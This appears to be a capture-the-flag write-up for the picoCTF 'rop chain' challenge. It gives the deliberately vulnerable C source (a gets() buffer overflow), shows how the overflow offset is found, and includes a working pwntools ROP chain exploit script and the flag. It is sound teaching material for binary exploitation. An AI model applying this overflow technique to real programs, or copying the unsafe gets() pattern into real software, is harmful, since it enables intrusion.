 # rop chain
**Points: 350**

## Binary Exploitation

## Question
>Can you exploit the following program and get the flag? You can findi the program in /problems/rop-chain_3_f91334c5acb91bde3de858eb8045928a on the shell server? Source. 

### Hint
>Try and call the functions in the correct order! - Remember, you can always call main() again!

## Solution
**Source:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;

void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
**[+] Find the padding:**
```console
$ msf-pattern_create -l 64                              
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
gdb-peda$ r                                                                                              
Starting program: rop                                                                               
Enter your input> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
...
Stopped reason: SIGSEGV
0x62413961 in ?? ()
$ msf-pattern_offset -q 0x62413961
[*] Exact match at offset 28
```
We need to call:  
> win_function1(),  win_function2(0xBAAAAAAD) and flag(0xDEADBAAD)

So our payload:
> payload = JUNK + p32(win1_addr) + p32(win2_addr) + p32(flag_addr) + p32(0xbaaaaaad) + p32(0xDEADBAAD)

```python
from pwn import *
from getpass import getpass

e = ELF('rop')
flag_addr = e.symbols[b'flag']
win1_addr = e.symbols[b'win_function1']
win2_addr = e.symbols[b'win_function2']
JUNK = b'A' * 28

payload = JUNK + p32(win1_addr) + p32(win2_addr) + p32(flag_addr) + p32(0xbaaaaaad) + p32(0xDEADBAAD)

path = '/problems/rop-chain_3_f91334c5acb91bde3de858eb8045928a/'

s = ssh(host='2018shell4.picoctf.com', user=input('[+] SSH username: '), password=getpass('[+] SSH password: '))

r = s.run('cd %s && ./rop' % path)

r.recv()
r.sendline(payload)
log.info('Flag: ' + r.recvline().decode('utf-8'))
r.close()
s.close()
```

![img1](images/1.png)

### Flag
`picoCTF{rOp_aInT_5o_h4Rd_R1gHt_6e6efe52}`
